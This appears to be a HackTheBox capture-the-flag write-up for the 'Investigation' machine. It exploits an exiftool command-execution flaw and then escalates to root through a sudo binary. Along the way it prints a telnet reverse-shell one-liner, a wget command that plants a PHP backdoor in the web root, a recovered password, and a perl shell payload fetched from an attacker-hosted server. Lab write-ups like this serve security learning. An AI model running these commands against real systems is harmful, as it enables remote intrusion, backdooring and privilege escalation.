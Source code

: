 ```yaml
---
layout: default
title: Investigation
author: k0z4c 
tags: hackthebox
---
```



Looking through the website it's easy to spot the vulnerability 

![]({% link assets/htb/investigation/front.png %})

the exiftool version used to analyze the uploaded jpg is vulnerable to command execution

<https://www.cvedetails.com/cve/CVE-2022-23935>

here the exploit 

<https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429>


we can go classic with this payload and breach in it  

```bash 
mkfifo die p && telnet 10.10.14.166 8888 0<die | sh 1>die |
```

![]({% link assets/htb/investigation/breach.png %})


![]({% link assets/htb/investigation/access.png %})


and from there download a more comfortable backdoor 

```bash
wget http://10.10.14.208/qsd-php-backdoor.php -O /var/www/html/analysed_images/kozacdoor.php
```

```bash
http://eforenzics.htb/analysed_images/kozacdoor.php
```

![]({% link assets/htb/investigation/kozacdoor.png %})

a smorton user is found ... 

![]({% link assets/htb/investigation/users.png %})


looking for something from smorton user smorton
```bash
find / -user smorton -readable 
...
/usr/local/investigation/Windows Event Logs for Analysis.msg
...
```

![]({% link assets/htb/investigation/props.png %})


after downloadin the e-mail the message has to be extracted 

<https://github.com/TeamMsgExtractor/msg-extractor>

![]({% link assets/htb/investigation/letters.png %})



the attachment are evtx logs that have to be analyzed.
Within the event id 4776 ( credential validation ) some credentials are found 
 
 ```bash
Def@ultf0r3nz!csPa$$ 
```

![]({% link assets/htb/investigation/logs.png %})


so it's possible to login as the smorton user 
```bash
ssh smorton@investigation.htb 
```

then we have this
```bash 
sudo -l 
(root) NOPASSWD: /usr/bin/binary
```

![]({% link assets/htb/investigation/sudo.png %})



to analyze locally the binary it has to be downloaded 

```bash
scp smorton@investigation.htb:/usr/bin/binary .
```

Decompiling  the binary we see that we have todo this 
```bash
sudo ./binary 3 lDnxUysaQn 
```

![]({% link assets/htb/investigation/ghidra.png %})


and looking for connections curl is trying to connect on port 80 of 0.0.0.3 

![]({% link assets/htb/investigation/trace.png %})


but.. 3 is also what i've set as the 2nd argument to launch the binary (the first one is the name of the invoked program itself, ‘binary’ )
in fact looking back to the ghidra's decompiled code it's possible to see that 3 is the number of args init with param_1 and that is assigned to the url 
component of curl (curl_easy_perform https://curl.se/libcurl/c/curl_easy_perform.html ) 

![]({% link assets/htb/investigation/perform.png %})


so changing to the attacker's IP it's possible to hijack the download endpoint and execute code through perl.


A file is created with the following content 

*test.pl*
```bash
exec "sh";
```

a web server serving the payload is set up with 
```bash
python3 -m http.server 80
```


running now  the binary 
```bash
sudo /usr/bin/binary 10.10.14.173/test.pl lDnxUysaQn
```

![]({% link assets/htb/investigation/root.png %})
